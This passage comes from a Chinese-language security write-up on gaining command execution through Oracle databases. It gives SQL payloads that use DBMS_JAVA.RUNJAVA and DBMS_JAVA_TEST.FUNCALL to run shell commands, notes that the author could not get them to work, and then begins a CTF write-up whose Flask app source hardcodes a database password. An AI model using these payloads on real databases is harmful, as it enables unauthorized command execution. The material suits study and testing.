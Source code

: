 最后就直接 rce 了。

[![](assets/1710899076-ea74de4791c0aade5cbe3d28a1f405c9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101215-caba2f74-d5de-1.png)

## dbms\_java.runjava/dbms\_java\_test\_funcall

```plain
-- 11g
SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper touch /tmp/success') FROM DUAL;

-- 10g/11g, 注意 10g 中还需要 readFileDescriptor 和 writeFileDescriptor
SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/sbin/ifconfig>/tmp/1.txt') FROM DUAL;
```

当然这几种我都无法实现

[![](assets/1710899076-fbfa35c48cce9d355ea4c1a7337ca8ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101220-cdd09900-d5de-1.png)

提示没有 wrapper 类，说明还是少了什么文件的。

# \[京麒 CTF 2023\] ez\_oracle

参考：[https://exp10it.cn/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez\_oracle-writeup/#ez\_oracle](https://exp10it.cn/2023/12/2023-%E4%BA%AC%E9%BA%92-ctf-ez_oracle-writeup/#ez_oracle)

```plain
import logging

import oracledb
from flask import Flask, request
import socket

app = Flask(__name__)
username = "system"
password = "PaAasSSsSwoRrRDd"
ol_server = "127.0.0.1"
ol_port = 1521
sid = "orcl"
dsn = "{}:{}/{}".format(ol_server, ol_port, sid)
```